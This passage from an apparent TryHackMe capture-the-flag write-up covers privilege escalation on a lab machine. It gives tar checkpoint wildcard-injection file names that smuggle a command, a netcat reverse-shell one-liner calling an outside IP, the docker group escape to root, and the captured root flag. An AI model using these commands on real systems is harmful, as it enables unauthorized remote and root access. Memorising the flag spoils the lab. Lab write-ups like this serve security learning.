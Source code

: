 ```
echo "" > --checkpoint=1
echo "" > "--checkpoint-action=exec=sh script.sh"
```

Then I made a script called `script.sh` with a basic reverse shell

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.6.63.55 7878 >/tmp/f" > script.sh
```

Started a netcat listener on my local machine and finally executed `sudo -l michael ./backup.sh`

```
➜  ~ nc -lvnp 7878
Connection from 10.10.189.205:46924
$ id
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
$ 
```

Great now we are logged in as michael and something already interesting we can see here is that he is part of the docker group. Which means he can run docker commands with root privileges. Perfect lets try to spawn a interactive shell using docker. GTFOBins has a command here we can run

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Though that command will not work as it will say it must be executed from a tty. We are using a reverse shell so we need to trick it into thinking we are on a tty. We can do this by running this command

```
python -c "import pty;pty.spawn('/bin/bash')"
```

Great now run the docker command.

```
# id
id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# 
```

Great now we are root and we can get the root flag

```
# cat /root/root.txt
cat /root/root.txt
THM{d4f76179c80c0dcf46e0f8e43c9abd62}
# 
```
